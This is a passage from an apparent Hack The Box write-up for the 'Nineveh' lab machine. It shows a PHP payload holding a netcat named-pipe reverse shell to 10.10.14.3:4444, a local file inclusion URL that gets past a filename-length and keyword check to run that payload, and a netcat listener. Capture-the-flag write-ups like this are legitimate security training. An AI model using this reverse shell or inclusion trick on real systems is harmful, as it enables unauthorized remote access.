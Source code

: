 **Or** we can use directly the reverse shell (which is the one I'm going to use):

```php
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 4444 >/tmp/f"); ?>
```

For this we need to create an INTEGER value of 1 in the table of Hack we created before:

{{< img "field2.png" "Create Row" "border" >}}

And now we have to modify the value (*1*) in the `insert` menu and click on *Go*:

{{< img "insert.png" "Insert" "border" >}}

Here we have the table done:

{{< img "tabledone.png" "Final Table" "border" >}}

It says our *.php* is in `/var/tmp/hack.php` so let's try the LFI from the HTTP page so that we can run that script:

```txt
nineveh.htb/department/manage.php?notes=files/ninevehNotes.txt../../../../../../../var/tmp/hack.php
```

But it didn't work as it says the file name is too long. It seems to only work with the name `ninevehNotes.txt` in the URL, so let's rename the database to see if it works:

```txt
/var/tmp/hack.php  -> /var/tmp/ninevehNotes.txt.hack.php
```

{{< img "rename.png" "" "border" >}}

Now the url keeps like:

```
nineveh.htb/department/manage.php?notes=/var/tmp/ninevehNotes.txt.hack.php
```

When running the page and listening with netcat:

```
nc -lnvp 4444
```

{{< img "wwwdata.png" "WWW-Data User" "border" >}}

Yay we are in!

I'm curious about the restrictions of the LFI. Reading the `manage.php`:

{{< img "manage.png" "Manage.php" "border" >}}

So yeah it had two restrictions, to not exceed 55 characters and that the filename must contain `ninevehNotes`.

And reading `login.php` we can see the variables for the login were hardcoded in the *PHP* script (Amrois mention they have now installed MySQL and the login page should be fixed haha):

{{< img "hardcoded.png" "Hardcoded User" "border" >}}

```html
<!-- @admin! MySQL is been installed.. please fix the login page! ~amrois -->
```
